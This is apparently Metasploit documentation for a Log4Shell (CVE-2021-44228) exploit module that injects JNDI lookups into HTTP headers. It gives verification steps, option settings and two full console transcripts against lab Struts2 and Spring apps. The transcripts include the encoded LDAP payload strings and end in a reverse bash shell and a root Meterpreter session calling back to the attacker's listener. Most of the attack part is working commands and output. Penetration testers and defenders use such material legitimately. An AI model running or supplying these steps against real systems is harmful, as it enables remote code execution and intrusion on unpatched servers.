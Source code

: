 ## Vulnerable Application
Versions of Apache Log4j2 impacted by CVE-2021-44228 which allow JNDI features used in configuration,
log messages, and parameters, do not protect against attacker controlled LDAP and other JNDI related endpoints.

This module will exploit an HTTP end point with the Log4Shell vulnerability by injecting a format message that
will trigger an LDAP connection to Metasploit and load a payload.

The Automatic target delivers a Java payload using remote class loading. This requires Metasploit to run an HTTP
server in addition to the LDAP server that the target can connect to. The targeted application must have the
trusted code base option enabled for this technique to work.

The non-Automatic targets deliver a payload via a serialized Java object. This does not require Metasploit to
run an HTTP server and instead leverages the LDAP server to deliver the serialized object. The target
application in this case must be compatible with the user-specified JAVA_GADGET_CHAIN option.

## Verification Steps

1. Setup a vulnerable Struts2 instance (see the steps below)
2. Start msfconsole
3. Do: `use exploit/multi/http/log4shell_header_injection`
4. Set the `SRVHOST`, `RHOSTS`, `RPORT` and `TARGETURI` options
    * For Struts2, set `TARGETURI` to `/struts2-showcase/`
5. If using a target other than Automatic, optionally change the `JAVA_GADGET_CHAIN` setting
6. Do: `run`
7. If the target is vulnerable, the payload should be executed


### Apache Struts2 Verification
For Apache Struts2, setup a vulnerable instance using the [steps][1] from the scanner module and use the following
options:

```
set HTTP_HEADER If-Modified-Since
set TARGETURI /struts2-showcase/struts/utils.js
set JAVA_GADGET_CHAIN CommonsBeanutils1
set TARGET Linux
set PAYLOAD cmd/unix/reverse_bash
```

This scenario uses the non-Automatic target to deliver a serialized payload. The target is compatible with the
CommonsBeanutils1 ysoserial payload.

### Spring2 Verification
For Spring2, run the `christophetd/log4shell-vulnerable-app:latest` docker image and use the following options:

```
set HTTP_HEADER X-Api-Version
set TARGETURI /
set TARGET Automatic
set PAYLOAD java/meterpreter/reverse_tcp
```

This scenario uses the Automatic target and remote class loading. The target application has the trusted code base
option enabled, allowing the payload to be loaded.

## Options

### HTTP_HEADER
The HTTP header to inject into. If this option is not specified, the scanner module will be used to automatically
identify a suitable value.

### HTTP_METHOD
The HTTP method to use.

### HTTP_SRVPORT
The HTTP server port. This service is used for remote class loading and is only relevant when the target is Automatic.

### JAVA_GADGET_CHAIN
The ysoserial payload to use for deserialization. This option is only relevant for non-Automatic targets that deliver a
serialized object. The selected value must be compatible with the target application.

## Scenarios

### Apache Struts2
For setup, see the "Apache Struts2 Verification" section above. The `If-Modified-Since` header is automatically detected
by the scanner.

```
msf > use exploit/multi/http/log4shell_header_injection
[*] Using configured payload java/shell_reverse_tcp
msf exploit(multi/http/log4shell_header_injection) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf exploit(multi/http/log4shell_header_injection) > set RPORT 8080
RPORT => 8080
msf exploit(multi/http/log4shell_header_injection) > set SRVHOST 192.168.250.134
SRVHOST => 192.168.250.134
msf exploit(multi/http/log4shell_header_injection) > set TARGETURI /struts2-showcase/struts/utils.js
TARGETURI => /struts2-showcase/struts/utils.js
msf exploit(multi/http/log4shell_header_injection) > set JAVA_GADGET_CHAIN CommonsBeanutils1
JAVA_GADGET_CHAIN => CommonsBeanutils1
msf exploit(multi/http/log4shell_header_injection) > set TARGET Linux
TARGET => Linux
msf exploit(multi/http/log4shell_header_injection) > set PAYLOAD cmd/unix/reverse_bash
PAYLOAD => cmd/unix/reverse_bash
msf exploit(multi/http/log4shell_header_injection) > set LHOST 192.168.250.134
LHOST => 192.168.250.134
msf exploit(multi/http/log4shell_header_injection) > check

[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 192.168.159.128:8080  - Log4Shell found via /struts2-showcase/struts/utils.js (header: If-Modified-Since) (java: BellSoft_11.0.13)
[+] 192.168.159.128:8080  - Log4Shell found via /struts2-showcase/struts/utils.js/%24%7bjndi%3aldap%3a%24%7b%3a%3a-/%7d/192.168.250.134%3a389/e31vm2fhlvewa70x3igyp/%24%7bsys%3ajava.vendor%7d_%24%7bsys%3ajava.version%7d%7d/ (java: BellSoft_11.0.13)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[+] 192.168.159.128:8080 - The target is vulnerable.
msf exploit(multi/http/log4shell_header_injection) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 192.168.159.128:8080  - Log4Shell found via /struts2-showcase/struts/utils.js (header: If-Modified-Since) (java: BellSoft_11.0.13)
[+] 192.168.159.128:8080  - Log4Shell found via /struts2-showcase/struts/utils.js/%24%7bjndi%3aldap%3a%24%7b%3a%3a-/%7d/192.168.250.134%3a389/qn32g1o993yt6s8z91b3ujz/%24%7bsys%3ajava.vendor%7d_%24%7bsys%3ajava.version%7d%7d/ (java: BellSoft_11.0.13)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[+] The target is vulnerable.
[+] Automatically identified vulnerable header: If-Modified-Since
[*] Command shell session 1 opened (192.168.250.134:4444 -> 192.168.250.134:54580 ) at 2022-01-07 14:37:25 -0500
[*] Server stopped.

id
uid=999(tomcat) gid=999(tomcat) groups=999(tomcat)
pwd
/
```

### Spring2
For setup, see the "Spring2 Verification" section above. The `X-Api-Version` header is automatically detected by the
scanner.

```
msf > use exploit/multi/http/log4shell_header_injection
[*] Using configured payload java/meterpreter/reverse_tcp
msf exploit(multi/http/log4shell_header_injection) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf exploit(multi/http/log4shell_header_injection) > set RPORT 8080
RPORT => 8080
msf exploit(multi/http/log4shell_header_injection) > set SRVHOST 192.168.250.134
SRVHOST => 192.168.250.134
msf exploit(multi/http/log4shell_header_injection) > set HTTP_SRVPORT 80
HTTP_SRVPORT => 80
msf exploit(multi/http/log4shell_header_injection) > set TARGETURI /
TARGETURI => /
msf exploit(multi/http/log4shell_header_injection) > set TARGET Automatic
TARGET => Automatic
msf exploit(multi/http/log4shell_header_injection) > set PAYLOAD java/meterpreter/reverse_tcp
PAYLOAD => java/meterpreter/reverse_tcp
msf exploit(multi/http/log4shell_header_injection) > set LHOST 192.168.250.134
LHOST => 192.168.250.134
msf exploit(multi/http/log4shell_header_injection) > check

[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 192.168.159.128:8080  - Log4Shell found via / (header: X-Api-Version) (java: Oracle Corporation_1.8.0_181)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[+] 192.168.159.128:8080 - The target is vulnerable.
msf exploit(multi/http/log4shell_header_injection) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 192.168.159.128:8080  - Log4Shell found via / (header: X-Api-Version) (java: Oracle Corporation_1.8.0_181)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[+] The target is vulnerable.
[+] Automatically identified vulnerable header: X-Api-Version
[*] Serving Java code on: http://192.168.250.134:80/VfrBNShRHj.jar
[*] Sending stage (58082 bytes) to 192.168.250.134
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 192.168.250.134:54582 ) at 2022-01-07 14:42:16 -0500
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer    : 6febf4ddad76
OS          : Linux 5.15.12-100.fc34.x86_64 (amd64)
Meterpreter : java/linux
meterpreter > 
```

[1]: https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/http/log4shell_scanner.md#apache-struts2-setup
